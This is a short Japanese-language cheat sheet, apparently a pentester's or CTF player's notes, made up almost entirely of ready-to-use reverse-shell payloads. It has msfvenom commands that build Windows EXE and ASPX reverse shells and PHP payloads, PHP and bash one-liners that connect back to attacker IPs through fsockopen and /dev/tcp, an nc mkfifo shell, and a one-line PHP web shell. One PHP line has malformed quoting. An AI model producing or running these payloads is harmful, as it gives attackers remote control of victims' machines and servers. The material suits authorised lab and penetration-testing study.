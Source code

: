 ## msfvenom

###基本オプション

ペイロードのオプション見る
   msfvenom -p windows/shell_reverse_tcp --list-options

### exe

    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.56 LPORT=80 -f exe -o rshell.exe


### aspx

    msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.30 LPORT=4444 -o reverse-shell.aspx
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.56 LPORT=80 -f aspx -o rshell.aspx
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.17.46 LPORT=4444 -f aspx -o rshell.aspx

### php  

    msfvenom -p php/reverse_php LHOST=10.10.17.46 LPORT=4444 -f raw -o rshell.php
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"10.10.14.56"/443 0>&1'");?>
    <?php $sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>
    <?php $sock = fsockopen("192.168.119.140",80);$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);?>
    php -r '$sock=fsockopen("10.10.14.56",80);exec("/bin/sh -i <&3 >&3 2>&3");'
    <?php system($_REQUEST["cmd"]); ?>

### nc

nc -e 使えない場合
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.56 443 >/tmp/f

### bash

    bash -c 'bash -i >& /dev/tcp/10.10.17.46/80 0>&1'
